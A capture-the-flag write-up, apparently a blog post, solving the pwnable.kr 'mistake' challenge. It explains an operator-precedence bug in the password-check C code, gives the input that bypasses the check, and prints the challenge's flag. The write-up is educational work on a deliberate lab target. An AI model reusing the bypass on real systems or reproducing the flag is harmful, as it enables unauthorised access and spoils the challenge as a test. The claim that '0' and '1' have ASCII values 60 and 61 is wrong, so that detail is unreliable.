 ```yaml
---
layout:     post
title:      "Pwnable.kr - mistake"
date:       2017-12-28 8:00:00
author:     "W3ndige"
permalink: /:title/
category: 'Pwnable'
---
```


Today we're going to learn a lot about operator priority, and why some of mistakes made in this topic can be so devastating. Great example of that will be a challenge from [pwnable.kr](http://pwnable.kr "pwnable.kr") called ***mistake***.

{% highlight text %}
We all make mistakes, let's move on.
(don't take this too seriously, no fancy hacking skill is required at all)

This task is based on real event
Thanks to dhmonkey

hint : operator priority
{% endhighlight %}

After connecting to ***ssh*** server, we can see two files waiting for us, compiled binary and source code.

{% highlight bash %}
main:~ > ssh mistake@pwnable.kr -p2222
mistake@pwnable.krs password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Thu Dec 28 05:48:19 2017 from 93.234.107.184
mistake@ubuntu:~$ ls -la
total 44
drwxr-x---  5 root        mistake 4096 Oct 23  2016 .
drwxr-xr-x 87 root        root    4096 Dec 27 23:17 ..
d---------  2 root        root    4096 Jul 29  2014 .bash_history
-r--------  1 mistake_pwn root      51 Jul 29  2014 flag
dr-xr-xr-x  2 root        root    4096 Aug 20  2014 .irssi
-r-sr-x---  1 mistake_pwn mistake 8934 Aug  1  2014 mistake
-rw-r--r--  1 root        root     792 Aug  1  2014 mistake.c
-r--------  1 mistake_pwn root      10 Jul 29  2014 password
drwxr-xr-x  2 root        root    4096 Oct 23  2016 .pwntools-cache
{% endhighlight %}

Let's take a look at the code firstly.

{% highlight c %}
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
	int i;
	for(i=0; i<len; i++){
		s[i] ^= XORKEY;
	}
}

int main(int argc, char* argv[]){

	int fd;
	if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
		printf("can't open password %d\n", fd);
		return 0;
	}

	printf("do not bruteforce...\n");
	sleep(time(0)%20);

	char pw_buf[PW_LEN+1];
	int len;
	if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
		printf("read error\n");
		close(fd);
		return 0;		
	}

	char pw_buf2[PW_LEN+1];
	printf("input password : ");
	scanf("%10s", pw_buf2);

	// xor your input
	xor(pw_buf2, 10);

	if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
		printf("Password OK\n");
		system("/bin/cat flag\n");
	}
	else{
		printf("Wrong Password\n");
	}

	close(fd);
	return 0;
}
endhigh
{% endhighlight %}

Let's study the code to find out where the mistakes are. We can clearly see the first bug in the `if` statement.

{% highlight c %}
if(fd=open(...) < 0){
{% endhighlight %}

As the hint suggested, there's a mistake in operator priority. We know that comparision operator `<` is given ***higher priority*** than assignment operator `=`. Using parenthis this piece of code will look just like this.

{% highlight c %}
if(fd=(open(...) < 0)){
{% endhighlight %}

And as we know, that open will return a non-negative integer representing the lowest numbered unused file descriptor, comparision will always ***fail*** and return ***0***. Then 0 is assigned to the `fd` variable. In addition, from the previous challenges, we know that file descriptor with value 0 is reserved for ***stdin***.

{% highlight c %}
if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
{% endhighlight %}

In this line, as `fd=0`, program will copy the input from ***stdin*** to the `pw_buf`. After that every character from the second input `pw_buf2` will be xored with 1, and lastly password will be compared in this line.

{% highlight bash %}
if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
{% endhighlight %}

So if we find out combination where first character xored with the 1 will result in the second, we will be able to bypass the password check. I picked ***1*** and ***0***, as theire respective values in ASCII are ***60**** and ***61***.

{% highlight python %}
>>> 61 ^ 1
60
>>> 60 ^ 1
61
{% endhighlight %}

Now we're ready to pass these numbers into the program.

{% highlight bash %}
mistake@ubuntu:~$ ./mistake
do not bruteforce...
1111111111
input password : 0000000000
Password OK
Mommy, the operator priority always confuses me :(
{% endhighlight %}
